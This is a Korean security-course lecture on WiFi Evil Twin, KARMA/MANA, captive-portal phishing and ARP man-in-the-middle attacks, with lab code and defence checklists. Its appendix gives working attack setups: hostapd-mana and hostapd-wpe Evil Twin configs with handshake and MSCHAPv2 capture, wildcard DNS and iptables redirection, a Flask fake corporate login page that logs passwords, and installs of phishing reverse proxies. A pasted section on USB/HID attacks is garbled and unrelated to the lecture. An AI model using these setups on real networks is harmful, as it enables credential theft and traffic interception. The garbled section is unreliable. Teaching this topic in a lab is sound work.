

# Week 07: WiFi 해킹 심화 — Evil Twin, Rogue AP, MITM

## 학습 목표
- Evil Twin 공격의 원리와 구현 방법을 이해한다
- Rogue AP의 유형과 탐지 방법을 분석한다
- WiFi 기반 MITM(Man-in-the-Middle) 공격을 수행할 수 있다
- Captive Portal 공격으로 크리덴셜 수집 기법을 실습한다
- KARMA/MANA 공격의 동작 원리를 설명할 수 있다
- WiFi MITM 공격에 대한 방어 전략을 수립할 수 있다

## 전제 조건
- Week 06 WiFi 해킹 기초 이수
- HTTP/HTTPS 프로토콜 이해
- ARP 프로토콜 이해

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | Evil Twin / Rogue AP 이론 | 강의 |
| 0:40-1:10 | KARMA/MANA 공격과 Captive Portal | 강의 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | WiFi MITM 공격 기법 | 강의/데모 |
| 2:00-2:40 | 실습: Evil Twin 시뮬레이션 | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 실습: ARP MITM + 트래픽 분석 | 실습 |
| 3:20-3:40 | 방어 전략 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: Evil Twin / Rogue AP / MITM 이론

## 1.1 Evil Twin 공격

Evil Twin은 정상 AP와 동일한 SSID를 가진 가짜 AP를 만들어 사용자를 속이는 공격이다.

### Evil Twin 공격 흐름

```
정상 상태:
[Client] ──WiFi──► [정상 AP: "CorpWiFi"] ──► [Internet]

Evil Twin 공격:
[Client] ──WiFi──► [Evil Twin: "CorpWiFi"] ──► [Attacker] ──► [Internet]
                   (신호 더 강함)                 (트래픽 스니핑)

공격 단계:
1. 정상 AP와 동일한 SSID로 가짜 AP 생성
2. 정상 AP보다 강한 신호로 브로드캐스트
3. (선택) Deauth로 클라이언트를 정상 AP에서 분리
4. 클라이언트가 Evil Twin에 자동 연결
5. 트래픽 스니핑/변조 수행
```

### Evil Twin 구현 도구

| 도구 | 특징 | 사용 편의성 |
|------|------|-----------|
| WiFi Pineapple | Hak5 전용 장비, 웹 UI | 매우 쉬움 |
| hostapd-wpe | Linux hostapd + WPE 패치 | 중간 |
| Fluxion | 자동화 Evil Twin + Captive Portal | 쉬움 |
| bettercap | WiFi MITM 프레임워크 | 중간 |
| wifiphisher | Python 기반 Evil Twin | 쉬움 |

## 1.2 Rogue AP 유형

```
Rogue AP 분류:
│
├── Evil Twin (악성 쌍둥이)
│   ├── 정상 AP의 SSID 복제
│   ├── 공격자가 의도적으로 설치
│   └── 트래픽 스니핑/크리덴셜 수집
│
├── Unauthorized AP (비인가 AP)
│   ├── 직원이 무단으로 설치한 AP
│   ├── 의도는 선하지만 보안 위험
│   └── 네트워크 세그먼테이션 우회
│
├── Misconfigured AP (오설정 AP)
│   ├── 보안 설정이 잘못된 정상 AP
│   ├── 기본 비밀번호 미변경
│   └── 암호화 비활성화
│
└── Honeypot AP (허니팟 AP)
    ├── "Free WiFi" 등 매력적인 SSID
    ├── 오픈 네트워크로 유인
    └── 연결 즉시 공격 시작
```

## 1.3 KARMA/MANA 공격

```
KARMA 공격:
├── 원리: 클라이언트의 Probe Request에 무조건 응답
├── 동작:
│   1. 클라이언트: "HomeWiFi 있나요?" (Probe Request)
│   2. KARMA AP: "네, 저 HomeWiFi입니다!" (Probe Response)
│   3. 클라이언트: 자동 연결
│
├── 대상: 기존에 연결했던 AP를 자동으로 찾는 장치
└── 방어: Preferred Network List 관리

MANA 공격 (KARMA 개선):
├── Loud MANA: 관찰된 Probe를 브로드캐스트
├── Known Beacon: 인기 있는 SSID로 비콘 전송
└── MANA + EAP: Enterprise 인증 크리덴셜 수집
```

## 1.4 Captive Portal 공격

```
Captive Portal 공격 흐름:
│
├── 1. Evil Twin AP 생성 (오픈 네트워크)
│
├── 2. DHCP/DNS 서버 설정
│   ├── DHCP: IP 할당
│   └── DNS: 모든 도메인을 공격자 서버로
│
├── 3. Captive Portal 페이지 제공
│   ├── WiFi 로그인 페이지 위장
│   ├── 회사 포털 위장
│   └── "인터넷 사용을 위해 로그인하세요"
│
├── 4. 크리덴셜 수집
│   ├── WiFi 비밀번호
│   ├── 회사 계정
│   └── 개인 정보
│
└── 5. 정상 인터넷 제공 (의심 방지)
```

## 1.5 WiFi MITM 공격 기법

### ARP Spoofing 기반 MITM

```
정상 통신:
[Victim] ──ARP──► [Gateway] ──► [Internet]

ARP Spoofing 후:
[Victim] ──ARP──► [Attacker] ──► [Gateway] ──► [Internet]
                  (트래픽 스니핑)

도구:
├── arpspoof (dsniff)
├── bettercap
├── ettercap
└── mitmproxy
```

### SSL Stripping

```
HTTPS → HTTP 다운그레이드:
├── 클라이언트가 HTTP로 접속 시도
├── MITM이 서버와 HTTPS 연결
├── 클라이언트에게는 HTTP로 전달
├── 결과: 암호화 없이 크리덴셜 노출
│
└── 방어: HSTS, HSTS Preload List
```

---

# Part 2: 실습

## 2.1 Evil Twin 시뮬레이션

```bash
# attacker VM에서 실행
ssh ccc@10.20.30.201

# Evil Twin 공격 시뮬레이터
cat << 'EVILTWIN' > /tmp/evil_twin_sim.py
#!/usr/bin/env python3
"""
Evil Twin 공격 시뮬레이터
실제 WiFi 없이 공격 흐름을 학습
"""
import time
import json

class EvilTwinSimulator:
    def __init__(self):
        self.target_ssid = "CorpWiFi"
        self.target_bssid = "AA:BB:CC:11:22:33"
        self.evil_bssid = "DD:EE:FF:11:22:33"
        self.connected_clients = []
        self.captured_creds = []
    
    def phase1_recon(self):
        """Phase 1: 대상 AP 정찰"""
        print("\n[Phase 1] Reconnaissance")
        print("-" * 40)
        print(f"[*] Scanning for target AP...")
        time.sleep(0.5)
        print(f"[+] Target AP found:")
        print(f"    SSID:    {self.target_ssid}")
        print(f"    BSSID:   {self.target_bssid}")
        print(f"    Channel: 1")
        print(f"    Enc:     WPA2-PSK")
        print(f"    Clients: 12")
        print(f"    Signal:  -45 dBm")
    
    def phase2_setup(self):
        """Phase 2: Evil Twin AP 설정"""
        print("\n[Phase 2] Evil Twin Setup")
        print("-" * 40)
        print(f"[*] Creating Evil Twin AP...")
        print(f"    SSID:    {self.target_ssid} (same as target)")
        print(f"    BSSID:   {self.evil_bssid}")
        print(f"    Channel: 1")
        print(f"    Enc:     Open (captive portal)")
        print(f"    Signal:  -30 dBm (stronger than target)")
        time.sleep(0.5)
        print(f"[+] DHCP server started")
        print(f"[+] DNS server started (all domains -> 10.20.30.201)")
        print(f"[+] Captive portal started on port 80")
        print(f"[+] Evil Twin AP is LIVE")
    
    def phase3_deauth(self):
        """Phase 3: Deauth 클라이언트"""
        print("\n[Phase 3] Client Deauthentication")
        print("-" * 40)
        clients = [
            "11:22:33:AA:BB:01",
            "11:22:33:AA:BB:02", 
            "11:22:33:AA:BB:03",
        ]
        for mac in clients:
            print(f"[*] Deauth -> {mac}")
            time.sleep(0.2)
        print(f"[+] {len(clients)} clients deauthenticated")
    
    def phase4_capture(self):
        """Phase 4: 클라이언트 연결 및 크리덴셜 수집"""
        print("\n[Phase 4] Client Capture")
        print("-" * 40)
        
        clients = [
            {"mac": "11:22:33:AA:BB:01", "os": "Windows 10", "cred": "kim.user:P@ss1234"},
            {"mac": "11:22:33:AA:BB:02", "os": "iPhone 15", "cred": "lee.staff:Welcome1!"},
            {"mac": "11:22:33:AA:BB:03", "os": "MacBook Pro", "cred": None},
        ]
        
        for client in clients:
            time.sleep(0.3)
            print(f"\n[+] Client connected: {client['mac']} ({client['os']})")
            print(f"    → Redirected to captive portal")
            if client['cred']:
                print(f"    → Credentials captured: {client['cred']}")
                self.captured_creds.append(client['cred'])
            else:
                print(f"    → User suspicious, did not enter credentials")
    
    def phase5_report(self):
        """Phase 5: 결과 보고"""
        print("\n[Phase 5] Attack Summary")
        print("=" * 40)
        print(f"  Evil Twin SSID:  {self.target_ssid}")
        print(f"  Duration:        ~5 minutes")
        print(f"  Clients caught:  3")
        print(f"  Creds captured:  {len(self.captured_creds)}")
        for cred in self.captured_creds:
            print(f"    -> {cred}")
        print(f"\n  [WARNING] This is a simulation for educational purposes only.")
        print(f"  [WARNING] Unauthorized Evil Twin attacks are illegal.")

# 실행
sim = EvilTwinSimulator()
print("=" * 50)
print("  Evil Twin Attack Simulator")
print("=" * 50)
sim.phase1_recon()
sim.phase2_setup()
sim.phase3_deauth()
sim.phase4_capture()
sim.phase5_report()
EVILTWIN

python3 /tmp/evil_twin_sim.py
```

## 2.2 ARP MITM 실습

```bash
# ARP MITM 공격 시뮬레이션 (실제 네트워크에서)
echo "=== ARP MITM 시뮬레이션 ==="
echo ""

# 1. 현재 ARP 테이블 확인
echo "[1] Current ARP table:"
arp -a 2>/dev/null || ip neigh show
echo ""

# 2. 대상 시스템 MAC 확인
echo "[2] Target MAC addresses:"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    ping -c 1 -W 1 $host &>/dev/null
done
ip neigh show | grep "10.20.30"
echo ""

# 3. IP forwarding 상태 확인
echo "[3] IP forwarding status:"
cat /proc/sys/net/ipv4/ip_forward
echo "(0=disabled, 1=enabled)"
echo ""

# ARP MITM 개념 설명
echo "[*] ARP MITM Attack Flow:"
echo "  1. attacker가 victim에게: '나(attacker MAC)가 gateway야'"
echo "  2. attacker가 gateway에게: '나(attacker MAC)가 victim이야'"
echo "  3. victim과 gateway 사이의 모든 트래픽이 attacker를 경유"
echo "  4. attacker가 트래픽을 스니핑/변조 후 전달"
echo ""
echo "[*] Tools: arpspoof, bettercap, ettercap"
echo "[*] Detection: arpwatch, Dynamic ARP Inspection (DAI)"
```

## 2.3 Captive Portal 시뮬레이션

```bash
# Captive Portal 서버 시뮬레이션
cat << 'PORTAL' > /tmp/captive_portal_sim.py
#!/usr/bin/env python3
"""
Captive Portal 시뮬레이터
Evil Twin에서 사용하는 가짜 로그인 포털
"""
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

PORTAL_HTML = """<!DOCTYPE html>
<html>
<head>
<title>CorpWiFi - Authentication Required</title>
<style>
body { font-family: Arial; background: #f0f2f5; margin: 0; padding: 50px; }
.container { max-width: 400px; margin: 0 auto; background: white;
             padding: 30px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
h2 { color: #1a73e8; text-align: center; }
input { width: 100%; padding: 12px; margin: 8px 0; box-sizing: border-box;
        border: 1px solid #ddd; border-radius: 4px; }
button { width: 100%; padding: 12px; background: #1a73e8; color: white;
         border: none; border-radius: 4px; cursor: pointer; font-size: 16px; }
.logo { text-align: center; font-size: 24px; margin-bottom: 20px; }
.notice { color: #666; font-size: 12px; text-align: center; margin-top: 15px; }
</style>
</head>
<body>
<div class="container">
<div class="logo">CorpWiFi</div>
<h2>Network Authentication</h2>
<p>인터넷 접속을 위해 회사 계정으로 로그인하세요.</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="사번 또는 이메일" required>
  <input type="password" name="password" placeholder="비밀번호" required>
  <button type="submit">로그인</button>
</form>
<div class="notice">IT 보안팀 | 문의: help@company.com</div>
</div>
</body>
</html>"""

class PortalHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/html; charset=utf-8')
        self.end_headers()
        self.wfile.write(PORTAL_HTML.encode())
    
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        data = urllib.parse.parse_qs(self.rfile.read(length).decode())
        username = data.get('username', [''])[0]
        password = data.get('password', [''])[0]
        
        print(f"[+] CAPTURED: {username}:{password}")
        
        self.send_response(302)
        self.send_header('Location', 'http://10.20.30.80:3000')
        self.end_headers()
    
    def log_message(self, fmt, *args):
        pass

print("[*] Captive Portal HTML generated")
print("[*] In a real attack, this runs on port 80")
print("[*] DNS redirects all domains to this portal")
print(f"\n[*] Portal preview saved to /tmp/captive_portal.html")
with open('/tmp/captive_portal.html', 'w') as f:
    f.write(PORTAL_HTML)
print("[*] Open in browser to see the portal design")
PORTAL

python3 /tmp/captive_portal_sim.py
```

## 2.4 MITM 트래픽 분석

```bash
# HTTP 트래픽 분석 (MITM에서 캡처된 트래픽)
echo "=== MITM 트래픽 분석 ==="

# HTTP 트래픽 캡처 테스트
echo "[1] HTTP 트래픽 분석:"
curl -s -v http://10.20.30.80:3000 2>&1 | head -20
echo ""

# HTTPS vs HTTP 비교
echo "[2] HTTPS vs HTTP 비교:"
echo "  HTTP:  평문 전송 → MITM으로 크리덴셜 가시"
echo "  HTTPS: 암호화 → MITM으로도 내용 불가 (인증서 오류 발생)"
echo ""

# SSL Stripping 테스트
echo "[3] SSL Stripping 방어 확인:"
curl -s -I http://10.20.30.80:3000 2>/dev/null | grep -i "strict\|location\|hsts"
echo ""

echo "[4] MITM 방어 체크리스트:"
echo "  □ HSTS (HTTP Strict Transport Security) 활성화"
echo "  □ HSTS Preload List 등록"
echo "  □ Certificate Pinning 적용"
echo "  □ 802.1X Enterprise 인증"
echo "  □ VPN 사용 의무화"
echo "  □ WIDS/WIPS 배포"
```

---

## 과제

### 과제 1: Evil Twin 공격 분석 (개인)
Evil Twin 시뮬레이터를 실행하고, 각 단계에서 발생하는 네트워크 이벤트를 802.11 프레임 수준에서 분석하라.

### 과제 2: MITM 탐지 도구 (개인)
ARP 스푸핑을 탐지하는 Python 스크립트를 작성하라. (ARP 테이블 변경 모니터링)

### 과제 3: WiFi 보안 정책 (팀)
기업 무선 네트워크 보안 정책을 수립하라. Evil Twin, Rogue AP, MITM에 대한 기술적/관리적 대책을 포함하라.

---

## 실제 사례 (WitFoo Precinct 6 — USB / HID Attack)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *USB / HID Attack* 학습 항목 매칭.

### USB / HID Attack 의 dataset 흔적 — "USB + 4663"

dataset 의 정상 운영에서 *USB + 4663* 신호의 baseline 을 알아두면, *USB / HID Attack* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — Rubber Ducky payload.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | USB + 4663 |
| 정량 baseline | Rubber Ducky payload |
| 학습 매핑 | BadUSB |

**자세한 해석**: BadUSB. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | USB + 4663 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **USB / HID Attack = USB + 4663 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — Rubber Ducky payload.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: Ducky script.


---

## 부록: 학습 OSS 도구 매트릭스 (Course16 Physical Pentest — Week 07 Evil Twin·Rogue AP·MITM·Captive Portal)

> 이 부록은 본문 Part 2 의 4 lab (Evil Twin 시뮬 / ARP MITM / Captive Portal /
> MITM 트래픽 분석) 의 모든 시뮬을 *실제 OSS 도구* 시퀀스로 매핑한다. 본문은
> Python 시뮬레이터 위주이지만 — 실 도구 (hostapd-mana / dnsmasq /
> bettercap / mitmproxy / sslstrip / arpwatch / HSTS / Dynamic ARP
> Inspection) 으로 1:1 재현한다. 모든 명령은 *허가된 lab 무선 + 격리 lab
> 네트워크* 에서만 실행한다 — Evil Twin 한 packet 도 외부 ISM 누설 시 전파법
> §29 위반.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 (시뮬) | 핵심 OSS 도구 (실 명령) | 도구 옵션 |
|------|----------|----------|----------------|-------------------------|-----------|
| s1 | 2.1 phase1 | 대상 AP 정찰 | Python `print(target)` | airodump-ng / kismet / wash | `--bssid + --channel + -w` |
| s2 | 2.1 phase2 | Evil Twin 생성 | Python `print('Evil Twin LIVE')` | hostapd-mana / hostapd / airbase-ng / wifiphisher | `hostapd /etc/hostapd-mana.conf` |
| s3 | 2.1 phase2 | DHCP / DNS 서버 | Python `print('DHCP/DNS started')` | dnsmasq / isc-dhcp-server / coredns | `dnsmasq -i wlan0 --address=/#/10.0.0.1` |
| s4 | 2.1 phase2 | Captive portal | (시뮬) | nodogsplash / coova-chilli / Flask + iptables redirect | `nodogsplash -c /etc/nodogsplash.conf` |
| s5 | 2.1 phase3 | Client deauth | Python `print('Deauth')` | aireplay-ng -0 / mdk4 / bettercap wifi.deauth | `aireplay-ng -0 5 -a -c` |
| s6 | 2.1 phase4 | Credential capture | Python list append | Flask POST / mitmproxy script / Modlishka / evilginx2 | mitmdump 스크립트 |
| s7 | 2.2 | ARP 테이블 점검 | `arp -a / ip neigh show` | iproute2 / arping / arp-scan | `ip -4 neigh; arping -c1 <gw>` |
| s8 | 2.2 | IP forwarding 활성 | `cat /proc/sys/net/ipv4/ip_forward` | sysctl + iptables NAT | `sysctl -w net.ipv4.ip_forward=1` |
| s9 | 2.2 | ARP MITM 실 명령 | (개념 설명) | bettercap arp.spoof / arpspoof / ettercap | `bettercap -eval "arp.spoof on"` |
| s10 | 2.3 | Captive portal HTML | Python BaseHTTPRequestHandler | python -m http.server / Flask + Jinja / Modlishka | Flask 런처 |
| s11 | 2.4 | HTTP/S 트래픽 점검 | `curl -v / curl -I` | mitmproxy / sslstrip2 / Burp Suite Community / wireshark | `mitmproxy -p 8080` |
| s12 | 2.4 | HSTS / 방어 | `curl -I  | grep strict` | curl + httpstats / hsts-check / SSL Labs | `curl -I -L; testssl.sh` |
| s13 | 1.5 | SSL Strip | (개념) | sslstrip / sslstrip2 / mitmproxy strip script | `sslstrip -l 8080` |
| s14 | 1.4 | KARMA / MANA | (개념) | hostapd-mana (loud mode) | `mana_loud=1` |
| s15 | 방어 | DAI (Dynamic ARP Inspection) | (개념) | Cisco DAI 또는 OpenWrt batman-adv / arpwatch | `arpwatch -i br0` |

### Evil Twin / MITM 도구 카테고리 매트릭스

| 카테고리 | 사례 | 대표 도구 (OSS) | 비고 |
|---------|------|----------------|------|
| **Evil Twin (수동)** | hostapd 단순 fake AP | hostapd | 1 SSID 모방 |
| **Evil Twin + Karma** | probe-response 자동 | hostapd-mana / hostapd-wpe | 모든 SSID 응답 |
| **Evil Twin + Captive** | 자동 portal | wifiphisher / Fluxion | TUI orchestrator |
| **Evil Twin + Enterprise** | EAP 자격증명 캡처 | hostapd-wpe (EAP-PEAP / GTC) | NTLM challenge |
| **Captive portal (open)** | 일반 fake login | nodogsplash / coova-chilli / Flask + iptables | DNS/DHCP wildcard |
| **Captive portal (advanced)** | 실 OAuth/SSO 위장 | evilginx2 / Modlishka | reverse proxy + cookie steal |
| **DHCP / DNS** | 자동 IP / 모든 도메인 redirect | dnsmasq / isc-dhcp-server / unbound | wildcard (`address=/#/`) |
| **MITM — ARP** | broadcast L2 | bettercap arp.spoof / arpspoof / ettercap | poison broadcast |
| **MITM — DHCP** | rogue DHCP | dnsmasq / Yersinia | response 빠르게 |
| **MITM — DNS** | rogue DNS | dnschef / dnsmasq | wildcard answer |
| **MITM — HTTP** | proxy + 변조 | mitmproxy / Burp Suite / Bettercap http.proxy | TLS CA 신뢰 필요 |
| **MITM — HTTPS** | TLS interception | mitmproxy + CA install / Burp + CA | victim CA store |
| **SSL Strip** | HTTPS → HTTP 다운 | sslstrip / sslstrip2 / mitmproxy script | HSTS 부재 시 |
| **SSL Pinning bypass** | 모바일 cert pin 우회 | Frida / Objection / sslunpinning | 모바일 한정 |
| **Phishing reverse-proxy** | OAuth/2FA 우회 | evilginx2 / Modlishka / Muraena | session hijack |
| **방어 — WIDS** | Rogue AP 탐지 | kismet / nzyme / WatchGuard WIDS | OUI / SSID anomaly |
| **방어 — 802.11w PMF** | deauth 차단 | hostapd `ieee80211w=2` | client 도 지원해야 |
| **방어 — 802.1X EAP-TLS** | 인증서 인증 | hostapd + freeradius | Evil Twin 무력화 |
| **방어 — DAI** | ARP poisoning 차단 | Cisco DAI / dhcpsnoop / arpwatch | 신뢰 binding |
| **방어 — HSTS** | SSL Strip 차단 | nginx `add_header Strict-Transport-Security` | preload 등록 |
| **방어 — Cert Pinning** | TLS interception 차단 | OWASP Cert Pinning + Public Key Pin | 앱 빌드 |
| **방어 — VPN** | 터널 강제 | wireguard / openvpn / strongswan | always-on |
| **방어 — DNS over HTTPS** | DNS poisoning 차단 | dnscrypt-proxy / cloudflared | 모든 DNS 암호화 |

### 학생 환경 준비

```bash
# attacker VM (192.168.0.112) — Evil Twin / MITM 도구
sudo apt-get update
sudo apt-get install -y \
   hostapd wpasupplicant aircrack-ng \
   dnsmasq isc-dhcp-server \
   bettercap ettercap-text-only dsniff \
   mitmproxy \
   tshark wireshark-common \
   nodogsplash \
   python3-flask python3-jinja2 \
   curl wget testssl.sh \
   freeradius freeradius-utils \
   arpwatch

# hostapd-mana (Karma)
git clone https://github.com/sensepost/hostapd-mana /tmp/hostapd-mana
cd /tmp/hostapd-mana/hostapd && make -j$(nproc)
sudo install -m755 hostapd /usr/local/bin/hostapd-mana

# hostapd-wpe (Enterprise)
git clone https://github.com/OpenSecurityResearch/hostapd-wpe /tmp/hostapd-wpe
cd /tmp/hostapd-wpe/hostapd && make -j$(nproc)
sudo install -m755 hostapd-wpe /usr/local/bin/hostapd-wpe

# wifiphisher (자동 captive portal)
pip3 install --user wifiphisher

# evilginx2 (reverse proxy phishing)
go install github.com/kgretzky/evilginx2@latest

# Modlishka
go install github.com/drk1wi/Modlishka@latest

# sslstrip2 (HSTS 우회 시도)
git clone https://github.com/LeonardoNve/sslstrip2 /tmp/sslstrip2
cd /tmp/sslstrip2 && pip3 install --user .

# dnschef
git clone https://github.com/iphelix/dnschef /tmp/dnschef

# 검증
hostapd -v 2>&1 | head -1
hostapd-mana -v 2>&1 | head -1 || echo "hostapd-mana 없음 (선택)"
dnsmasq -v 2>&1 | head -1
mitmproxy --version
bettercap -version 2>&1 | head -1
tshark -v 2>&1 | head -1
```

### 핵심 도구별 상세 사용법

#### 도구 1: hostapd-mana — Evil Twin + Karma 통합 (s2, s14)

본문 phase2 의 *Evil Twin AP LIVE* 의 실 명령. hostapd-mana 는 hostapd 의
patch — KARMA (probe response 자동) + Loud mode (관찰된 SSID 모두 broadcast)
+ EAP credential capture 가 통합.

```bash
# /etc/hostapd-mana.conf — Open Evil Twin (captive portal 용)
cat << 'EOF' > /etc/hostapd-mana.conf
interface=wlan0
driver=nl80211
ssid=CorpWiFi                  # 정상 AP 와 동일 SSID
hw_mode=g
channel=1
beacon_int=100
dtim_period=2

# Karma — 모든 probe 에 응답
mana_loud=1                     # Loud MANA — 관찰된 SSID broadcast
mana_macacl=0                   # 모든 client 허용
mana_wpaout=/tmp/mana-handshakes.hccapx

# 인증 — Open (captive portal 로 처리)
auth_algs=1
ignore_broadcast_ssid=0
EOF

# 시작
sudo hostapd-mana /etc/hostapd-mana.conf

# WPA2-PSK 모드 (정상 AP 와 같은 인증 모방 — handshake 캡처용)
cat << 'EOF' > /etc/hostapd-mana-wpa.conf
interface=wlan0
ssid=CorpWiFi
hw_mode=g
channel=1

# WPA2-PSK
wpa=2
wpa_passphrase=anything12345    # 클라이언트 입력만 받으면 hash 캡처
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP

mana_wpaout=/tmp/mana-wpa-handshakes.hccapx
EOF

sudo hostapd-mana /etc/hostapd-mana-wpa.conf
# → 실 client 가 정상 SSID 인 줄 알고 접속 시도 → handshake 캡처 →
#   /tmp/mana-wpa-handshakes.hccapx 저장 (오프라인 hashcat 으로 PSK 추출)
```

#### 도구 2: hostapd-wpe — Enterprise (EAP) 자격증명 캡처

회사 802.1X 환경에서 Evil Twin + RADIUS WPE patch → EAP-PEAP/MSCHAPv2 challenge
캡처 → asleap 로 사용자 비밀번호 추출.

```bash
# /etc/hostapd-wpe.conf — Evil Twin Enterprise
cat << 'EOF' > /etc/hostapd-wpe.conf
interface=wlan0
ssid=CorpWiFi-Enterprise
hw_mode=g
channel=6

ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/ca.pem
server_cert=/etc/hostapd-wpe/server.pem
private_key=/etc/hostapd-wpe/server.key
private_key_passwd=

wpa=2
wpa_key_mgmt=WPA-EAP
rsn_pairwise=CCMP
EOF

sudo hostapd-wpe /etc/hostapd-wpe.conf

# 실 client (alice) 접속 시도 → MSCHAPv2 challenge/response 캡처
# /var/log/hostapd-wpe.log:
# username:  alice@CORP
# challenge: 11:22:33:44:55:66:77:88
# response:  AA:BB:CC:DD:EE:FF:00:11:22:33:44:55:66:77:88:99:AA:BB:CC:DD:EE:FF
# jtr NETNTLM: alice:$NETNTLM$1122334455667788$AABBCCDDEEFF...

# asleap / john 으로 NTLM 추출
asleap -C 11:22:33:44:55:66:77:88 -R AA:BB:CC:DD... \
   -W /tmp/wordlist.txt
# password = 'CorpPass2025!'
```

**탐지** — 실 EAP-TLS 만 사용 → MSCHAPv2 자체 사용 안 하면 캡처 자체 불가.

#### 도구 3: dnsmasq — DHCP + DNS 위장 (s3)

본문 phase2 의 *DHCP started + DNS started (모든 도메인 → 10.20.30.201)* 의
실 명령. dnsmasq 한 줄로 양쪽 모두 처리.

```bash
# 1. wlan0 에 IP 할당 (Evil Twin AP 자기 IP)
sudo ip addr add 10.0.0.1/24 dev wlan0
sudo ip link set wlan0 up

# 2. dnsmasq 설정
cat << 'EOF' > /etc/dnsmasq-evil.conf
interface=wlan0
no-resolv

# DHCP — 10.0.0.10 ~ 10.0.0.100 임대 (12h)
dhcp-range=10.0.0.10,10.0.0.100,12h
dhcp-option=3,10.0.0.1                       # gateway
dhcp-option=6,10.0.0.1                       # DNS

# DNS wildcard — 모든 도메인 → 10.0.0.1
address=/#/10.0.0.1
EOF

# 3. dnsmasq 시작
sudo dnsmasq -C /etc/dnsmasq-evil.conf -d
# 화면 (foreground 디버그):
# dnsmasq: started, version 2.90 cachesize 150
# dnsmasq-dhcp: DHCPDISCOVER(wlan0) 11:22:33:aa:bb:01
# dnsmasq-dhcp: DHCPOFFER(wlan0) 10.0.0.10 11:22:33:aa:bb:01
# dnsmasq-dhcp: DHCPACK(wlan0) 10.0.0.10
# dnsmasq: query[A] www.google.com from 10.0.0.10
# dnsmasq: config www.google.com is 10.0.0.1   ← 모든 도메인 자기 IP

# 4. iptables — 모든 HTTP 80/tcp 를 captive portal (8080) 로 redirect
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 \
   -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 \
   -j REDIRECT --to-port 8443
```

#### 도구 4: Flask captive portal — 본문 Python 코드의 운영 등가

본문 2.3 의 Python BaseHTTPRequestHandler 를 Flask 로 재작성 — 다중 client
동시 처리 + 로그 + 정상 인터넷 redirect.

```bash
# /tmp/portal/app.py
mkdir -p /tmp/portal/templates
cat << 'EOF' > /tmp/portal/app.py
#!/usr/bin/env python3
"""
Lab Captive Portal — Evil Twin login 위장 (학습 전용)
"""
from flask import Flask, request, render_template, redirect
import logging, datetime

app = Flask(__name__, template_folder='templates')
logging.basicConfig(filename='/tmp/portal/captured.log',
                    format='%(asctime)s %(message)s', level=logging.INFO)

@app.route('/')
def home():
    return render_template('login.html')

@app.route('/login', methods=['POST'])
def login():
    user = request.form.get('username', '')
    pw = request.form.get('password', '')
    src = request.remote_addr
    ua = request.headers.get('User-Agent', '')
    logging.info(f"CAPTURED ip={src} user={user!r} pw={pw!r} ua={ua!r}")
    return redirect('http://10.20.30.80:3000/')

@app.route('/<path:p>')
def catchall(p):
    return render_template('login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080, debug=False)
EOF

# templates/login.html (본문 PORTAL_HTML 그대로 사용)
cat << 'EOF' > /tmp/portal/templates/login.html
<!DOCTYPE html>
<html><head><meta charset="utf-8">
<title>CorpWiFi - Authentication Required</title>
<style>
body{font-family:Arial;background:#f0f2f5;margin:0;padding:50px}
.container{max-width:400px;margin:0 auto;background:white;padding:30px;border-radius:8px;box-shadow:0 2px 4px rgba(0,0,0,.1)}
h2{color:#1a73e8;text-align:center}
input{width:100%;padding:12px;margin:8px 0;box-sizing:border-box;border:1px solid #ddd;border-radius:4px}
button{width:100%;padding:12px;background:#1a73e8;color:white;border:none;border-radius:4px;cursor:pointer;font-size:16px}
.logo{text-align:center;font-size:24px;margin-bottom:20px}
.notice{color:#666;font-size:12px;text-align:center;margin-top:15px}
</style></head>
<body><div class="container">
<div class="logo">CorpWiFi</div>
<h2>Network Authentication</h2>
<p>인터넷 접속을 위해 회사 계정으로 로그인하세요.</p>
<form method="POST" action="/login">
<input type="text" name="username" placeholder="사번 또는 이메일" required>
<input type="password" name="password" placeholder="비밀번호" required>
<button type="submit">로그인</button>
</form>
<div class="notice">IT 보안팀 | 문의: help@company.com</div>
</div></body></html>
EOF

# 실행
cd /tmp/portal && python3 app.py &

# 검증 (다른 터미널)
